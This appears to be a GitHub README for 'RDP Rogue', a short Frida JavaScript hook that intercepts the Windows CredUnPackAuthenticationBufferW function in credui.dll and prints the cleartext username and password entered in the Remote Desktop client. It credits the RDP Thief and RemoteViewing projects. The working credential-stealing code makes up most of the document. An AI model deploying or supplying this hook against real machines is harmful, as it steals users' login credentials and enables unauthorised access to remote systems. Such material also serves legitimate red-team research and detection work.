 # RDP Rogue

Dirty Frida Hook to retrieve RDP credentials based on  [FuzzySec's](https://twitter.com/FuzzySec) [RemoteViewing](https://github.com/FuzzySecurity/Sharp-Suite#remoteviewing) and [@0x09AL](https://twitter.com/0x09AL) [RDP Thief](https://www.mdsec.co.uk/2019/11/rdpthief-extracting-clear-text-credentials-from-remote-desktop-clients/) projects

```js
console.log('works!');
const CredUnPackAuthentication = Module.getExportByName('credui.dll','CredUnPackAuthenticationBufferW');

Interceptor.attach(CredUnPackAuthentication,{
	onEnter: function (args){
		console.log('Getting username and password pointers');
		this.ptr_user=args[3];
		this.ptr_pass=args[7];
		
	},
	onLeave: function (retval) {
		console.log('Post-Call Values');
		console.log(Memory.readUtf16String(this.ptr_user)+':'+Memory.readUtf16String(this.ptr_pass));
  }
});
```

![](./poc.png)

### References

[RDP Thief](https://www.mdsec.co.uk/2019/11/rdpthief-extracting-clear-text-credentials-from-remote-desktop-clients/)

[RemoteViewing](https://github.com/FuzzySecurity/Sharp-Suite#remoteviewing)